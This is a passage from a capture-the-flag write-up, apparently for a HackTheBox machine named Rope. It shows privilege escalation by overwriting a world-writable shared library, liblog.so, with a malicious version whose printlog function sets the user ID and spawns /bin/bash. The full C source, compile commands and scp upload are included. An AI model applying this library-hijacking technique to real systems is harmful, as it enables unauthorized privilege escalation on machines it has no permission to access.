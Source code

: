 ```bash
john@rope:~$
```
Using ltrace we can see that `printlog` is called.
```bash
john@rope:~$ ldd /usr/bin/readlogs
        linux-vdso.so.1 (0x00007ffc5d9ec000)
        liblog.so => /lib/x86_64-linux-gnu/liblog.so (0x00007f7e7c741000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7e7bf37000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7e7c52a000)
```
Checking out what libraries are used, `liblog.so` seems to be quite interesting.
```bash
john@rope:~$ ls -lah /lib/x86_64-linux-gnu/liblog.so
-rwxrwxrwx 1 root root 16K Jun 19  2019 /lib/x86_64-linux-gnu/liblog.so
```
We have write permissions on the library and can therefore overwrite it!
Let use create a malicious library to run our commands instead of printlog.

### Privesc to r4j
For this we create a simple library, which sets our effective user id to 1000 (UID of r4j) and then execute /bin/bash.
```c
#include <stdlib.h>
extern int printlog();

int printlog() {
        setreuid(1000,1000); /* r4j:x:1000:1000:r4j:/home/r4j:/bin/bash */
        execve("/bin/bash",NULL,NULL);
}
```
```bash
root@silence:~# gcc -c -fPIC liblog.c -o liblog_patched.o
liblog.c: In function ‘printlog’:
liblog.c:5:2: warning: implicit declaration of function ‘setreuid’ [-Wimplicit-function-declaration]
    5 |  setreuid(1000,1000);
      |  ^~~~~~~~
liblog.c:6:2: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
    6 |  execve("/bin/bash",NULL,NULL);
      |  ^~~~~~
root@silence:~# gcc liblog_patched.o -shared -o liblog_patched.so
```
We compile it using gcc and transfer it to the box using scp.
```bash
root@silence:~# scp -i id_rsa liblog_patched.so john@10.10.10.148:/lib/x86_64-linux-gnu/liblog.so
liblog_patched.so                                                   100%   16KB 164.8KB/s   00:00
```
If we now execute the readlogs binary, we should get a shell as r4j.
```bash
john@rope:~$ sudo -u r4j /usr/bin/readlogs
r4j@rope:/home/john$
```
We got a shell as r4j and can read user.txt
```bash
r4j@rope:/home/r4j$ cat user.txt
deb9b***************************
```


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif